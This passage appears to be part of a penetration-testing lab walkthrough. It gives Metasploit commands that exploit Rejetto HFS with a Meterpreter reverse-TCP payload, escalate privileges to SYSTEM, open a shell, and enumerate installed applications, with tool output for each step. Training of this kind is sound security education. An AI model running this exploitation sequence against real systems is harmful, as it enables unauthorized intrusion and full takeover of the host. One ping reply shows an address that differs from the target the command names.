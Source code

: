 **Step 3**.

`msfconsole`, `search hfs`, `use exploit/windows/http/rejetto_hfs_exec`, `show options`, `set RHOSTS 10.4.20.158`, `set PAYLOAD windows/x64/meterpreter/reverse_tcp`, `exploit -j`.

**Step 4**.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator ←
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

**Step 5**.

`shell`, `ping 10.4.19.156 -n 1`:
```
Pinging 10.4.28.1 with 32 bytes of data:
Reply from 10.4.28.1: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.28.1:
    Packets: Sent = 1, Received = 1, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

**Step 6**.

`exit`, `run post/windows/gather/enum_applications`:
```
[*] Enumerating applications installed on ATTACKDEFENSE

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 AWS PV Drivers                                                      8.4.0
 AWS Tools for Windows                                               3.15.1494
 Amazon SSM Agent                                                    3.1.338.0
 Amazon SSM Agent                                                    3.1.338.0
 EC2ConfigService                                                    4.9.4508.0
 EC2ConfigService                                                    4.9.4508.0
 EC2ConfigService                                                    4.9.4508.0
 FileZilla Client 3.57.0 ←                                           3.57.0
 Google Chrome                                                       96.0.4664.110
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913  14.28.29913.0
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.29.30040  14.29.30040.0
 Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29913      14.28.29913
 Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29913         14.28.29913
```